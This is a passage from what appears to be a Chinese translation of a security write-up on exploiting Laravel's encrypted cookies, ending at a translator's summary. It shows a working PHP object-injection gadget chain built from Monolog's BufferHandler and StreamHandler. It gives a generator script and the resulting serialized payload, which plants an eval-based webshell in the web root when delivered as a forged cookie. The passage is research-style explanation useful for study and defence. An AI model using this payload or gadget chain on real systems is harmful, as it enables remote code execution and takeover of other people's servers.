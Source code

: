 我们已经使用`unserialize()`作为我们 padding oracle 的基础， 那我们再次利用`unserialize()`作一次 PHP 对象注入来达到任意代码执行，如何？

经过搜索 Laravel 代码之后，发现还是蛮多类定义了 `__wakeup()` 或者 `__destruct()` 魔术方法， 不过我发现最有趣的一个类当属被很多项目引用的 monolog PHP 日志记录框架中的 BufferHandler 类，显然，如果 payload 利用的是被广泛应用的 monolog 而不是其他特定的类，会更为通用。 使用 Composer(PHP 依赖管理器)时，monolog 很有可能被包含，因为它可能被注册为 PHP class autoload，这也就意味着， monolog 不用被明确的包含在我们请求的文件中，当我们反序列化的时候，PHP 会自动寻找加载这个类。

BufferHandler 类包装这另外一个 log 处理类，当 BufferHandler 对象被销毁时，BufferHandler 对象会用它包含的实际处理 log 的对象处理它当前的 log buffer，一个比较好的选择是能够存储到任意流资源(比如说文件流)的 StreamHandler 类，所以我们的计划是注入一个包含 StreamHandler 对象的 BufferHandler 对象，其中 StreamHandler 对象的流资源指向 web 根目录，并且 BufferHandler 内包含着带有 php webshell 的 log buffer，好，计划通，行动。

利用下面的代码，很容易生成对应的 payload:

```
<?php

require_once 'vendor/autoload.php';

use Monolog\Logger;
use Monolog\Handler\StreamHandler;
use Monolog\Handler\BufferHandler;

$handler = new BufferHandler(
    new StreamHandler('target-file.php')
);
$handler->handle(array(
    'level' => Logger::DEBUG,
    'message' => '<?php eval(hex2bin($_GET[\'x\']));?>',
    'extra' => array(),
));
print bin2hex(serialize($handler)) . "\n";
?>

```

上面的脚本会生成我们的 payload:

```
O:29:"Monolog\Handler\BufferHandler":3:{s:10:"\x00*\x00handler";O:29:"Monolog\Handler\StreamHandler":1:{s:6:"\x00*\x00url";s:15:"target-file.php";}s:9:"\x00*\x00buffer";a:1:{i:0;a:3:{s:5:"level";i:100;s:7:"message";s:34:"<?php eval(hex2bin($_GET['x']));?>";s:5:"extra";a:0:{}}}s:13:"\x00*\x00bufferSize";i:1;} 
```

通过上面介绍的技巧，我们可以加密该 payload，作为 cookie 提交上去的时候，代码就执行了。

## 0x08 译者总结

* * *

对于原作者所说的漏洞，我拿一个开源 blog [laravel-4.1-simple-blog](https://github.com/5-say/laravel-4.1-simple-blog) 做实验，将关键文件回滚到存在漏洞状态，如果有人想研究，也可以在这[laravel-cookie-forgery-decryption-and-rce.zip](http://static.wooyun.org/20141017/2014101716030797096.zip)下载完整文件。

### 测试 1 任意用户登录
